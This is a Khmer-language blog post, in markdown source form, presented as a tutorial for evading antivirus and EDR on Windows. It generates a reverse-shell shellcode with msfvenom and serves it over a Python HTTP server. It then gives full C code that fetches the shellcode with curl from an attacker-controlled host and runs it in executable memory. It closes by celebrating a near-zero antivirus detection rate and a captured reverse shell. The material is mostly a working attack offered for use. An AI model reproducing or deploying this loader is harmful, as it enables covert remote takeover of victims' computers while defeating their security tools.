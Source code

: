 ```yaml
---
title: "Evading AV/EDR with Curl Command"
date: 2023-06-29T21:01:06+07:00
description: វិធីសាស្ត្រ Evading AV/EDR ដោយប្រើប្រាស់ពាក្យបញ្ជា Curl
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
- metasploit
categories:
- Evading
series:
- WinExE
image: images/feature3/terminal.gif
---
```


ខ្លីៗអំពីការ Bypass AV/EDR តាមរយៈពាក្យបញ្ជា Curl ដោយប្រើប្រាស់ភាសា C ។

#### Generate Payload
ខាងក្រោមជាដំណើរការបង្កើត Payload ដោយប្រើប្រាស់ Shellcode ជាឯកសារ Raw គោលដៅលើម៉ាស៊ីន 64 bit ។

<b>បញ្ជាក់៖</b> Payload នេះដំណើរការតែក្នុងម៉ាស៊ីនវីនដូ ៨/10/11 ឡើងប៉ុណ្ណោះ ។

{{< highlight bash "linenos=table" >}}
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.60.136 lport=4433 -f raw -o cat.bin
{{< / highlight >}}

#### Live Payload
ក្រោយពីបង្កើត Payload រួចយើងបង្កើត Server ដើម្បីបង្ហោះវាក្នុងគោលបំណងទាញយកមកប្រើប្រាស់វិញនៅជំហ៊ានបន្ទាប់ ។

{{< highlight python3 "linenos=table" >}}
python3 -m http.server -d payloadDir 8000
{{< / highlight >}}

#### PWN The Code
តស់ចាប់ផ្ដើមបង្កើត FUD Payload ដោយប្រើប្រាស់ពាក្យបញ្ជា Curl ក្នុងភាសារ C ដើម្បីទាញយក Beacon និងបើកដំណើរការពីចំងាយ ។

{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
int main()
{
    FILE *fpipe;
    char *command = "curl http://192.168.60.136:8000/cat.bin";
    char c = 0;
    unsigned char code[460]; //ប្ដូរចំនួនលេខទៅតាមទំហំនៃ bytes របស់ payload
    //ex: Payload size: 460 bytes
    int counter = 0;
if (0 == (fpipe = (FILE*)popen(command, "r")))
    {
        perror("popen() failed.");
        exit(EXIT_FAILURE);
    }
while (fread(&c, sizeof c, 1, fpipe))
    {
        code[counter] = c;
        printf("%c", code[counter]);
        counter = counter + 1;
    }
pclose(fpipe);
    
    void *exec = VirtualAlloc(0, sizeof code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, code, sizeof code);
 ((void(*)())exec)();
 return 0;
}
{{< / highlight >}}

បន្ទាប់មក Compile Payload តាមធម្មតាដោយប្រើប្រាស់វិធីសាស្ត្រ Process Injection តាមបែប Slef-Injection ដោយផ្ដល់សិទ្ធតាមលំនាំដើម Read, Write និង Execute ។

#### Demo
ចុចដំណើរការក្នុងម៉ាស៊ីនវីនដូ ១០ ។

![Download and Execute Payload](/en/posts/img/2023/06/evading-avedr-with-curl-in-c/exec-fud-payload.png)

ទទួលបាន Reverse Shell ។

![Got Reverse Shell](/en/posts/img/2023/06/evading-avedr-with-curl-in-c/got-reverse-shell.png)

#### Scan Result

ខាងក្រោមជាលទ្ធផលពីការ Scan របស់កម្មវិធីកំចាត់មេរោគល្បីៗ ។

![Scan Result](/en/posts/img/2023/06/evading-avedr-with-curl-in-c/scan-results.png)

ញ៉ាក់សាច់ទេ? ហិហិហិ ១ លើ ២៦ ៕

<b>លទ្ធផលតេស្ត៖</b> [ANTISCAN.ME](https://antiscan.me/scan/new/result?id=FFFHoyobVRLK)
<b>សម្រង់ចេញពី៖</b> [MEDIUM](https://medium.com/@lsecqt/creating-fully-undetectable-payload-fud-with-c-46a734837d1c)